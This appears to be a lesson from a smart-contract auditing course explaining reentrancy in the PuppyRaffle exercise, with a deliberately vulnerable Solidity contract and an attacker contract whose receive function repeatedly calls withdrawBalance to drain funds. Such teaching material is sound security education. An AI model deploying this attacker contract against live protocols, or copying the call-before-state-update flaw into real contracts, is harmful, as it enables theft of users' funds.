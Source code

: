 # Exploit: Reentrancy
- ***Reentrancy Attack in PuppyRaffle: Deposit-Withdraw Loop Steals Funds***

- Let's see if we can nail down this vulnerability. When we'd run `Slither` earlier, you may recall it had actually found something...
- Run it again and we'll have a closer look.

```bash
slither .
```

- Looking through the output, we can see `Slither` is in fact detecting things in our `refund` function!

[![Reentrancy Exploit](https://updraft.cyfrin.io/security-section-4/18-exploit-reentrancy/exploit-reentrancy1.png)](https://updraft.cyfrin.io/security-section-4/18-exploit-reentrancy/exploit-reentrancy1.png)

### What is a re-entrancy attack and how does it work?
- For this lesson, we'll be heavily leaning on our **[sc-exploits-minimized](https://github.com/Cyfrin/sc-exploits-minimized)** repo for diagrams and examples to reference. Be sure to clone it so you can see how these vulnerabilities work locally.

- Here's our example contract:

```js
contract ReentrancyVictim {
    mapping(address => uint256) public userBalance;

    function deposit() public payable {
        userBalance[msg.sender] += msg.value;
    }

    function withdrawBalance() public {
        uint256 balance = userBalance[msg.sender];
        // An external call and then a state change!
        // External call
        (bool success,) = msg.sender.call{value: balance}("");
        if (!success) {
            revert();
        }

        // State change
        userBalance[msg.sender] = 0;
    }
}
```

- Fairly simple. Under normal circumstances

User A (balance 10 ether) can deposit funds

1. deposit{value: 10 ether}

```js
userBalance[UserA] = 10 ether
contract balance = 10 ether
User A balance = 0 ether
```

- And then withdraw them

2. withdrawBalance

```js
userBalance[UserA] = 0 ether
contract balance = 0 ether
User A balance = 10 ether
```

- The order of operations is really important in these situations. In our `withdrawBalance` function, we see that the function is making an external call _before_ updating the state of the contract.
- What this means, is that an attacker could have that external call be made in such a way that it triggers a call of the `withdrawBalance` function again (hence - reentrancy).

```js
contract ReentrancyAttacker {
    ReentrancyVictim victim;

    constructor(ReentrancyVictim _victim) {
        victim = _victim;
    }

    function attack() public payable {
        victim.deposit{value: 1 ether}();
        victim.withdrawBalance();
    }

    receive() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdrawBalance();
        }
    }
}
```

- Consider the above attack contract. Seems pretty benign, but let's walk through what's actually happening.

1. Attacker calls the attack function which deposits 1 ether, then immediately withdraws it.

```js
function attack() public payable {
        victim.deposit{value: 1 ether}();
        victim.withdrawBalance();
    }
```

2. The `ReentrancyVictim` contract does what's it's supposed to and received the deposit, then process the withdrawal. During this process the victim contract makes a call to the attacker's contract.

**NOTE: THIS IS BEFORE OUR BALANCE HAS BEEN UPDATED**

```js
(bool success,) = msg.sender.call{value: balance}("");
        if (!success) {
            revert();
        }
```

- What happens when a contract receives value? It's going have it's receive/fallback functions triggered. And what does our Attacker's receive function look like?

```js
receive() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdrawBalance();
        }
    }
```

- It calls the `withdrawBalance` function again! Because our previous `withdrawBalance` hasn't updated our balance yet, the contract will happily let us withdraw again.. and again .. and again until all funds are drained.
- Let's look at this all put together.

[![Rentrancy Exploit](https://updraft.cyfrin.io/security-section-4/18-exploit-reentrancy/exploit-reentrancy2.png)]

### Wrap Up
- Re-entrancy is a a big deal and it's very impactful when it happens. We're really going to nail down our understanding of this attack vector before moving on.
- At it's most minimalistic, re-entrancy generates a loop that continually drains funds from a protocol.
- Case Scenario in this vulnerability: an attacker deposits and withdraws the rest of the protocol pool.
- Inspired by: https://solidity-by-example.org/hacks/re-entrancy/

[![Rentrancy Flow Diagram](https://updraft.cyfrin.io/security-section-4/18-exploit-reentrancy/exploit-reentrancy3.png)]

- Our next lesson is going to be a hands on example of this vulnerability in Remix. Let's see what this exploit is like in action.
